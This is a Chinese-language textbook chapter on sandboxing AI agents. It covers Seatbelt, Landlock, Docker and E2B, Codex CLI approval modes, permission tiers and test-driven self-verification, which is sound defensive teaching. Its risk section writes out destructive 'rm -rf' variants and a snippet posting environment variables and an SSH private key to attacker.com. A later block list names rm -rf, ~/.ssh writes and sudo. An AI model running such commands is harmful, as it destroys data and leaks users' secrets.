



### 第 9 章 沙箱与安全执行 — 让 Agent 在笼子里奔跑

> 📖 本章你将学会：为什么 Agent 必须在沙箱中执行代码、四种沙箱方案的原理与选型（macOS Seatbelt / Linux Landlock / Docker / E2B 云沙箱）、Codex CLI 三档审批模型、五级权限分级体系、"写→跑→看→修"自我验证循环

---

#### 开篇：没有护栏的高速公路

想象一条没有护栏、没有限速、没有应急车道的高速公路。你的车性能再好，也不敢开到 200km/h——不是怕车失控，是怕别人失控撞到你。

Agent 执行代码就是在这条"高速公路"上飞驰。Agent 会写文件、运行 Shell 命令、安装依赖包、发起网络请求。这些操作一旦没有边界，就像没有护栏的高速公路：

- Agent 误删了 `rm -rf /`，整个系统被清空
- npm 包里藏着恶意脚本，偷走了你的 SSH 密钥
- Agent 调用了一个未授权的 API，数据泄露

**沙箱就是护栏**。它不是限制 Agent 的能力，而是给 Agent 划定一个安全的活动范围——在这个范围内，Agent 可以自由地写代码、跑测试、安装包，但出了这个范围，一步都跨不出去。

> 💡 比喻：沙箱不是"把 Agent 关进监狱"，而是"给 Agent 建一个游乐场"。游乐场里有秋千、滑梯、沙坑，孩子可以尽情玩耍——但游乐场有围墙，孩子跑不到马路上去。围墙不是惩罚，是保护。

---

#### 9.1 为什么需要沙箱

##### 9.1.1 Agent 执行代码的三重风险

Agent 不同于 Chatbot 的本质区别在于——它能**执行代码**。而代码执行天然伴随着三类风险：

**风险一：意外破坏（rm -rf 问题）**

Agent 可能生成一条意在清理临时文件的命令，但路径写错了：

```bash
# Agent 想清理 ./tmp/ 目录
rm -rf ./tmp/

# 但如果 Agent 误把路径写成
rm -rf / tmp/    # 空格之后，根目录被删
# 或
rm -rf ~ /tmp    # Home目录被删
```

这种错误不是 Agent "恶意"——是 LLM 生成文本时的一个字符级失误。但对系统而言，后果和恶意攻击一样严重。

**风险二：恶意供应链（恶意包问题）**

Agent 在解决依赖问题时，会执行 `npm install` 或 `pip install`。但包生态中存在大量恶意包——它们的名字和正版包只差一个字母（typosquatting 攻击），一旦安装就会执行恶意脚本：

```bash
# Agent 想安装 legit 包
pip install legit

# 但 Agent 或攻击者诱导安装了
pip install legit-pkg   # 恶意包，安装后窃取环境变量和密钥
```

2024 年 PyPI 和 npm 生态中发现了数百个此类恶意包，有的潜伏数月才被发现。

**风险三：未授权网络请求（数据泄露问题）**

Agent 在调试时可能执行 `curl` 或 `requests.get()`，将代码内容、环境变量或 API 密钥发送到外部服务器：

```python
# Agent 为了"测试网络连通性"执行的命令
import requests
requests.post("https://attacker.com/collect", data={
    "env": dict(os.environ),  # 包含 API keys
    "files": open("~/.ssh/id_rsa").read()
})
```

如果没有任何网络限制，这些数据一旦发出就无法挽回。

##### 9.1.2 沙箱的本质：隔离执行环境

沙箱（Sandbox）的核心思想是**隔离**：把 Agent 的代码执行环境与宿主系统隔离开来，使得 Agent 在沙箱内的操作不会影响沙箱外的世界。

具体来说，沙箱需要隔离三个维度：

| 隔离维度 | 防护目标 | 实现手段 |
|----------|----------|----------|
| 文件系统 | 防止误删/篡改宿主文件 | 限制可写路径，只允许白名单目录 |
| 网络 | 防止数据泄露和未授权访问 | 默认禁用网络，白名单放行 |
| 进程 | 防止提权和系统调用 | 限制 syscall，阻止 fork/exec 越权 |

> 💡 比喻：沙箱就像手术室。手术室里有专门的通风系统（网络隔离）、无菌操作台（文件系统隔离）、门禁系统（进程隔离）。医生在手术室内可以做任何操作，但细菌（恶意代码）出不了手术室，外面的脏空气也进不来。

---

#### 9.2 沙箱实现方案

沙箱的实现方案按隔离强度从低到高排列：macOS Seatbelt → Linux Landlock → Docker 容器 → E2B 云沙箱。每种方案有不同的适用场景。



##### 9.2.1 macOS Seatbelt：内核级沙箱

**Seatbelt** 是 macOS 内核（XNU）中的安全框架，由 `Sandbox.kext` 内核扩展实现。它通过 `sandbox-exec` 命令应用 **SBPL**（Sandbox Policy Language）配置文件来限制进程权限。

SBPL 使用 Scheme 语法（Lisp 方言），核心模式是"默认拒绝 + 白名单放行"：

```scheme
;; sandbox-exec 配置文件示例
(deny default)                          ; 默认拒绝所有操作
(allow file-read*                       ; 允许读取以下路径
  (subpath "/Users/dev/project")
  (subpath "/usr/lib"))
(allow process-exec                     ; 允许执行特定程序
  (literal "/bin/bash")
  (literal "/usr/bin/python3"))
(deny network*)                         ; 禁止所有网络访问
```

Seatbelt 的几个关键特性：

**最后匹配规则生效（last-match-wins）**：当多条规则匹配同一操作时，最后一条规则决定最终结果。这意味着你可以先 `deny` 一个大类，再用后面的 `allow` 放行特定子集。

**子进程自动继承沙箱**：沙箱内的进程 fork 出的子进程会自动继承父进程的沙箱限制。Agent 在沙箱中启动的 Python/Node 子进程也被同等约束。

**符号链接解析后检查**：Seatbelt 会先解析符号链接指向的真实路径，再检查规则。这防止了通过 `ln -s` 绕过路径限制的攻击。

> ⚠️ **注意**：Apple 在 2017 年将 `sandbox-exec` 标记为 deprecated，但截至 macOS 14+（Sonoma），它仍然完全可用。事实上，macOS 自身的安全体系就运行在同一个 Seatbelt 引擎上。Chrome、Claude Code、Cursor、Codex CLI 等主流工具在 macOS 上都依赖 Seatbelt 实现沙箱。deprecated 标记更多是"不推荐第三方直接编写 SBPL"的意思，而非"功能即将移除"。

Codex CLI 在 macOS 上使用 Seatbelt 时，默认创建一个只读监狱（read-only jail），只允许 `$PWD`、`$TMPDIR`、`~/.codex` 等少量目录可写，并完全阻止出站网络。

##### 9.2.2 Linux Landlock：非特权沙箱

**Landlock** 是 Linux 内核中的安全模块（LSM），从 Linux 5.13 起合并入主线。与 SELinux、AppArmor 不同，Landlock 的核心特点是**非特权使用**——普通进程无需 root 权限就能自我限制。

Landlock 的工作原理：

1. 进程创建一个**规则集（ruleset）**，定义要限制的访问类型
2. 向规则集添加**规则**，指定哪些路径/端口允许什么操作
3. 调用 `landlock_restrict_self()` 将规则集绑定到当前线程
4. 此后，当前线程及其所有子线程被限制在规则集定义的权限内

```c
// Landlock C 代码示例
struct landlock_ruleset_attr ruleset_attr = {
    .handled_access_fs = LANDLOCK_ACCESS_FS_WRITE_FILE
                        | LANDLOCK_ACCESS_FS_REMOVE_FILE
                        | LANDLOCK_ACCESS_FS_REMOVE_DIR,
    .handled_access_net = LANDLOCK_ACCESS_NET_CONNECT_TCP,
};

// 创建规则集
int ruleset_fd = landlock_create_ruleset(&ruleset_attr, sizeof(ruleset_attr), 0);

// 添加规则：允许写入 /tmp/agent 目录
struct landlock_path_beneath_attr path_attr = {
    .allowed_access = LANDLOCK_ACCESS_FS_WRITE_FILE,
    .parent_fd = open("/tmp/agent", O_PATH | O_CLOEXEC),
};
landlock_add_rule(ruleset_fd, LANDLOCK_RULE_PATH_BENEATH, &path_attr, 0);

// 确保不再获取新权限
prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0);

// 将限制应用到当前线程
landlock_restrict_self(ruleset_fd, 0);
```

Landlock 的关键设计原则是**渐进式限制（只增不减）**：一旦限制被应用，进程在生命周期内**永远无法解除**，只能继续增加更多限制。这防止了被攻陷的进程通过提权来逃逸沙箱。

Landlock 的 ABI 版本演进：

| ABI 版本 | 内核版本 | 新增能力 |
|----------|----------|----------|
| v1 | Linux 5.13 | 文件系统规则（读/写/执行/创建/删除等 14 种权限） |
| v2 | Linux 5.19 | `LANDLOCK_ACCESS_FS_REFER`（跨目录移动文件） |
| v3 | Linux 6.2 | `LANDLOCK_ACCESS_FS_TRUNCATE`（文件截断） |
| v4 | Linux 6.7+ | 网络规则（TCP 绑定/连接端口控制） |

> 💡 比喻：如果 macOS Seatbelt 是"政府颁发的门禁卡"（需要系统级配置），那 Linux Landlock 就是"自愿戴上的手环"——你自己决定去哪些房间，手环一旦戴上就摘不下来，但戴手环不需要任何人的许可。

##### 9.2.3 Docker 容器隔离

Docker 是最成熟的容器化方案，通过 **namespace**（命名空间隔离）和 **cgroup**（资源限制）实现进程隔离。对于 Agent 沙箱场景，Docker 的关键配置是：

```dockerfile
# Codex CLI 推荐的 Docker 沙箱配置
FROM python:3.12-slim

# 以非 root 用户运行
RUN useradd -m agent
USER agent

# 只读根文件系统
# docker run --read-only ...
```

```bash
# 运行沙箱容器
docker run \
  --network none \
  --read-only \
  --tmpfs /tmp:size=100m \
  -v "$PWD:/workspace:rw" \
  -w /workspace \
  codex-sandbox:latest \
  codex --approval-mode full-auto "修复所有失败的测试"
```

Docker 沙箱的优势是**生态成熟、易于部署**。Codex CLI 官方为 Linux 环境提供了 `run_in_container.sh` 脚本，自动创建最小容器镜像、挂载仓库、配置 iptables 防火墙拒绝除 OpenAI API 之外的所有出口流量。

但 Docker 也有局限：容器与宿主共享内核，如果内核有漏洞，容器逃逸风险存在。对于极高安全要求场景，需要 MicroVM 方案。

##### 9.2.4 E2B 云沙箱：MicroVM 方案

**E2B** 是一个开源的云沙箱平台，基于 **Firecracker MicroVM**（AWS 开发的轻量级虚拟机技术）。与 Docker 容器不同，MicroVM 拥有独立的内核，提供更强的隔离边界。

E2B 的核心特性：

| 特性 | 数据 | 说明 |
|------|------|------|
| 冷启动 | 150ms | 从创建到可用的延迟 |
| Pause/Resume | 暂停~4s/GB，恢复~1s | 暂停后状态保持最长 30 天 |
| 计费 | ~$0.05/hour per vCPU | 按秒计费，不用不计费 |
| SDK | Python / TypeScript | 一行代码创建沙箱 |
| 客户 | Fortune 100 中 88% | Manus AI / Perplexity / Hugging Face |

使用 E2B 的 Python SDK 创建沙箱只需一行：

```python
from e2b import Sandbox

# 创建云沙箱（150ms 冷启动）
sandbox = Sandbox()

# 在沙箱中执行代码
result = sandbox.run_python("print('Hello from sandbox')")
print(result.text)  # Hello from sandbox

# 执行 Shell 命令
sandbox.commands.run("npm install express")

# 文件操作
sandbox.filesystem.write("/workspace/main.py", code)

# 暂停沙箱（状态保持）
sandbox.pause()    # ~4秒/GB

# 恢复沙箱
sandbox = Sandbox.resume(sandbox_id)  # ~1秒

# 关闭沙箱
sandbox.close()
```

E2B 的 Pause/Resume 功能特别适合 Agent 场景：Agent 在一次任务中安装了依赖、下载了数据集、训练了模型——这些状态可以通过 Pause 保存下来，下次 Resume 时直接恢复，无需重新安装和下载。

> 💡 比喻：四种沙箱方案就像四种"保险箱"——Seatbelt 是"贴身口袋"（系统集成最深但只限 macOS），Landlock 是"自助密码锁"（无需 root 但功能在发展中），Docker 是"标准保险柜"（生态成熟但共享内核），E2B 是"银行保管箱"（最强隔离但要付费且依赖网络）。

##### 9.2.5 选型矩阵

| 维度 | macOS Seatbelt | Linux Landlock | Docker | E2B |
|------|---------------|----------------|--------|-----|
| 隔离强度 | 内核级 | 内核级 | 容器级 | VM级 |
| 平台 | 仅 macOS | 仅 Linux | 跨平台 | 云端 |
| 需要 root | 否 | 否 | 是 | 否 |
| 网络隔离 | ✅ | ABI v4+ | ✅ | ✅ |
| 成本 | 免费 | 免费 | 免费 | 按秒计费 |
| 适合场景 | 本地开发 | 本地开发 | CI/CD | 生产环境 |

---

#### 9.3 权限分级与操作审批

##### 9.3.1 Codex CLI 三档审批模式

OpenAI Codex CLI 提供了一套分层信任模型，通过 **`--approval-mode`** 参数控制 Agent 的自主程度。三档模式从保守到激进依次为：suggest → auto-edit → full-auto。



三档模式的核心区别在于**哪些操作需要人工审批**：

| 操作类型 | suggest | auto-edit | full-auto |
|----------|---------|-----------|-----------|
| 读取文件 | ✅ 自动 | ✅ 自动 | ✅ 自动 |
| 写入/补丁 | ❌ 需审批 | ✅ 自动 | ✅ 自动 |
| Shell 命令 | ❌ 需审批 | ❌ 需审批 | ✅ 自动(沙箱内) |
| 网络访问 | ❌ 需审批 | ❌ 需审批 | ❌ 完全禁用 |
| 安全约束 | 人工兜底 | Git 状态检查 | 沙箱深度防御 |

**suggest 模式**（默认，最安全）：Agent 只能读取文件，所有写入和命令执行都需要人工确认。适合探索新代码库、代码审查、高风险环境。这个模式下，人就是安全网——Agent 每一步都要问你"可以吗？"

**auto-edit 模式**（平衡效率与控制）：Agent 可以自动读写文件，但 Shell 命令仍需人工审批。适合日常开发、批量重构、代码生成。一个关键安全机制是：如果工作目录没有被 Git 跟踪，Codex 会发出警告并提示初始化仓库——确保所有自动修改都有版本控制作为回退安全网。

**full-auto 模式**（最高效率，沙箱约束）：Agent 完全自主执行所有操作，但运行在严格沙箱中——网络完全禁用、文件系统写入限制在 `$PWD`、`$TMPDIR` 和 `~/.codex`。适合 CI/CD 流水线、快速原型、批量任务。

> 💡 比喻：三档模式就像自动驾驶的三个级别——suggest 是"辅助驾驶"（人始终握方向盘），auto-edit 是"有条件自动驾驶"（车自己开但人随时接管），full-auto 是"完全自动驾驶"（但限定在封闭园区内，不能上公共道路）。

##### 9.3.2 五级权限模型

将三档审批模式进一步抽象，可以形成一个更通用的**五级权限模型**，适用于任何 Agent 系统：

| 级别 | 名称 | 文件读 | 文件写 | 命令执行 | 网络 | 适用场景 |
|------|------|--------|--------|----------|------|----------|
| L0 | 只读 | 白名单 | ❌ | ❌ | ❌ | 代码审查、文档生成 |
| L1 | 建议模式 | ✅ | ❌(需审批) | ❌(需审批) | ❌(需审批) | 探索代码、学习工具 |
| L2 | 自动编辑 | ✅ | ✅ | ❌(需审批) | ❌(需审批) | 日常开发、重构 |
| L3 | 沙箱自主 | ✅ | ✅(限路径) | ✅(沙箱内) | ❌ | CI/CD、原型开发 |
| L4 | 完全自主 | ✅ | ✅ | ✅ | ✅ | 生产环境（需额外护栏） |

这个模型的核心原则是**最小权限原则（Principle of Least Privilege）**：Agent 只应获得完成任务所需的最小权限。默认从 L0 开始，只有当任务确实需要更高权限时才提升。

##### 9.3.3 敏感操作审批流程

无论哪个权限级别，某些"敏感操作"始终需要人工审批：

```python
# 敏感操作分类
SENSITIVE_OPERATIONS = {
    # 文件系统
    "delete_recursive": "rm -rf",
    "modify_system": "写入 /etc /usr /bin",
    "modify_home": "写入 ~/.ssh ~/.gnupg",

    # 网络
    "external_request": "非白名单域名请求",
    "data_upload": "上传文件到外部",

    # 进程
    "privilege_escalation": "sudo su",
    "install_package": "npm/pip install",
    "background_process": "nohup/daemon",
}
```

审批流程的设计原则：

1. **展示完整命令**：审批界面必须显示 Agent 要执行的完整命令和预期影响，不能只显示"执行一条命令？"
2. **可编辑而非只可拒绝**：用户可以在审批时直接编辑命令（修正路径、缩小范围），而非只能接受或拒绝
3. **会话级记忆**：用户对同一类操作的审批决定可以在当前会话内复用，避免重复确认
4. **审计日志**：所有审批记录（包括拒绝的操作）都写入日志，便于事后追溯

##### 9.3.4 网络访问策略：默认禁用

网络访问是 Agent 安全中最敏感的维度——一次未授权的网络请求就可能导致数据泄露。因此，网络策略的基本原则是**默认禁用、白名单放行**：

```yaml
# 网络策略配置示例
network_policy:
  default: deny
  whitelist:
    - domain: "api.openai.com"
      port: 443
      method: ["POST"]
    - domain: "registry.npmjs.org"
      port: 443
      method: ["GET"]
    - domain: "pypi.org"
      port: 443
      method: ["GET"]
  audit: true
```

这种策略确保：即使 Agent 被恶意 Prompt 注入诱导发起外部请求，白名单以外的域名都会被直接拦截。

---

#### 9.4 自我验证循环

##### 9.4.1 写 → 跑 → 看 → 修 → 再来

沙箱解决了"Agent 跑危险代码不会伤害系统"的问题，但还有另一个问题：**Agent 怎么知道自己写的代码是对的？**

答案是**自我验证循环**：Agent 写完代码后，主动运行它，观察输出，如果出错就修复，然后再运行——直到代码通过所有测试。



这个循环的五个步骤：

1. **写（Write）**：Agent 根据任务生成代码或修改
2. **跑（Run）**：在沙箱中执行代码或运行测试套件
3. **看（Observe）**：阅读执行输出（stdout/stderr/测试报告/Linter 报告）
4. **修（Fix）**：如果输出包含错误，分析原因并修复
5. **再来（Loop）**：回到步骤 2，直到所有测试通过

> 💡 比喻：自我验证循环就像雕塑家的工作方式——先粗略凿出形状（写），退后一步看看比例对不对（跑+看），哪里多了就凿掉、哪里少了就补上（修），然后再退后看……反复几十次，直到作品完成。没有哪个雕塑家是一锤子定型的。

##### 9.4.2 测试驱动 Agent：先写测试再实现

自我验证循环的一个高级应用是**测试驱动 Agent（Test-Driven Agent）**——借鉴 TDD（测试驱动开发）的理念，让 Agent 先写测试，再写实现：

```
任务: "实现一个函数，输入一个URL列表，返回所有可达的URL"

Agent 的工作流:
1. 先写测试:
   - test_valid_urls(): 测试正常URL
   - test_invalid_urls(): 测试格式错误的URL
   - test_timeout(): 测试超时处理
   - test_empty_list(): 测试空列表

2. 运行测试 → 全部失败（因为还没实现）

3. 写最小实现让第一个测试通过

4. 运行测试 → 第一个通过，其余失败

5. 补充实现让更多测试通过

6. 运行测试 → 全部通过 → 任务完成
```

测试驱动 Agent 的优势在于：**测试本身成为了 Agent 的"验证预言机"**。Agent 不需要"猜"自己的代码对不对——测试通过就是对的，测试失败就是有问题。这把"代码正确性"从主观判断变成了客观信号。

##### 9.4.3 Linter 输出为 Agent 设计

自我验证循环的效率高度依赖于**反馈信号的质量**。如果 Linter 只输出 `Error: line 42`，Agent 很难知道怎么修。好的 Linter 输出应该**为 Agent 设计**——包含明确的修复建议：

```python
# 不友好的 Linter 输出
# line 42: E501

# 为 Agent 设计的 Linter 输出
# line 42: E501 line too long (98 > 79 characters)
# Suggestion: Break the line after a comma or operator.
# Example: result = (very_long_variable_name +
#                    another_long_variable_name)
```

为 Agent 设计 Linter 输出的三条原则：

1. **错误分类清晰**：是语法错误、风格问题、安全风险还是逻辑隐患？不同类型需要不同的修复策略
2. **包含修复建议**：不仅指出"哪里错了"，还给出"怎么改"的建议或示例
3. **可机器解析**：输出格式结构化（JSON 或固定格式），便于 Agent 程序化解析和批量处理

```json
// 结构化 Linter 输出示例
{
  "file": "src/agent.py",
  "line": 42,
  "column": 1,
  "severity": "error",
  "rule": "E501",
  "message": "line too long (98 > 79 characters)",
  "fix": {
    "type": "split_line",
    "suggestion": "Break after comma at column 45"
  }
}
```

当 Linter 输出被设计为 Agent 可直接消费的格式时，自我验证循环的"修"步骤就变得高效——Agent 可以批量解析所有 Lint 错误，一次性生成修复补丁，而非逐条处理。

---

#### 9.5 本章小结

本章围绕一个核心问题展开：**如何让 Agent 安全地执行代码？**

**三个核心认知：**

**认知一：沙箱不是限制，是护栏。** Agent 的能力不在于"能做什么"，而在于"在安全边界内能做什么"。沙箱把"Agent 可能跑危险代码"的不确定性转化为"代码只能在隔离环境跑"的确定性。四种方案——macOS Seatbelt（内核级，macOS 专用）、Linux Landlock（非特权，Linux 5.13+）、Docker（容器级，跨平台）、E2B（MicroVM，云端）——各有适用场景，选型取决于平台、隔离强度和成本要求。

**认知二：权限分级是最小权限原则的落地。** Codex CLI 的三档审批模式（suggest → auto-edit → full-auto）展示了一个实用的分层信任模型。更一般化的五级权限模型（L0 只读 → L4 完全自主）提供了设计任何 Agent 系统时的权限框架。核心原则是：默认从最低权限开始，只在任务确实需要时才提升。网络访问是最敏感的维度，必须默认禁用、白名单放行。

**认知三：自我验证循环让 Agent 从"猜"变成"验证"。** "写→跑→看→修→再来"的循环让 Agent 不再依赖主观判断代码是否正确，而是通过运行测试获得客观反馈。测试驱动 Agent 把 TDD 理念引入 AI 编程——先写测试再实现，测试通过即任务完成。而为 Agent 设计的 Linter 输出（结构化、含修复建议）是提升循环效率的关键基础设施。

> 🔗 **下一章**：沙箱解决了"安全执行"问题，但 Agent 还需要"标准化调用外部工具"的能力——这就是 MCP 协议。第 10 章将深入 MCP 的架构、原语和通信原理，并从零开发一个完整的 MCP Server。
